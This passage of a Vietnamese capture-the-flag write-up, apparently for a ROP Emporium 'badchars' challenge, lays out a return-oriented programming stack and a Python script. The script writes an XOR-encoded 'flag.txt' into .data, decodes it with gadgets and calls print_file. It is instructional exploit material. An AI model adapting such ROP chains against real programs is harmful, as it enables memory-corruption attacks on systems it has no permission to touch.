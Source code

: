 ```text-plain
0x0000000000400634: mov qword ptr [r13], r12; ret;
0x00000000004006a2: pop r15; ret; 
```

Build stack như sau

```text-plain
---> Load encrypted flag vào section .data
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x40069c] -> pop r12; pop r13; pop r14; pop r15; ret;
[encrypted_flag] -> 8 byte encrypted "flag.txt" -> r12
[0x601028 + 7] -> -rw- .data -> r13; Vì 0x601028 + 0x6 = 0x60102e có 0x2e là '.' nên ta cộng thêm 7 vào địa chỉ
[key] -> encrypt key -> r14
[0x601028] -> -rw- .data -> r15
[0x400634] -> mov qword ptr [r13], r12; ret;  -> lấy encrypted 'flag.txt' (r12) lưu vào .data (r13)
---> Lặp lại gadget xor với mỗi byte trong encrypted flag lưu tại .data
[0x400628] -> xor byte ptr [r15], r14b; ret;
[0x4006a2] -> pop r15; ret;
[0x601028 + 7 + i] -> Với  1<= i < 8
[0x400628] -> xor byte ptr [r15], r14b; ret; byte cuối của encrypted flag
[0x4006a3] -> pop rdi; ret;
[0x601028 + 7] -> rdi -> arg1 của print_file
[0x4004ee] -> ret;
[0x400510] -> print_file();
```

Dựa trên stack như trên ta build payload sử dụng python và struct module

```text-x-python
from struct import pack
import sys

def p(x):
    return pack('<Q', x)

data_loc_addr = 0x601028 + 7 # because 0x601028 + 0x6 = 0x60102e and 0x2e is '.' in badchars
key = 0x50
filename = 'flag.txt'
enc_filename = ''

for c in filename:
    enc_filename += chr(ord(c) ^ key)

payload = b''
payload += b'B'*40
payload += p(0x40069c) # pop r12; pop r13; pop r14; pop r15; ret; 
payload += enc_filename.encode() # r12
payload += p(data_loc_addr) # r13
payload += p(key) # r14
payload += p(data_loc_addr) # r15
payload += p(0x400634) # mov qword ptr [r13], r12; ret;
for i in range(1,8):
    payload += p(0x400628) # xor byte ptr [r15], r14b; ret;
    payload += p(0x4006a2) # pop r15; ret;
    payload += p(data_loc_addr + i)
payload += p(0x400628) # xor byte ptr [r15], r14b; ret;
payload += p(0x4006a3) # pop rdi; ret;
payload += p(data_loc_addr)
payload += p(0x4004ee) # ret;
payload += p(0x400510) # print_file

sys.stdout.buffer.write(payload)
```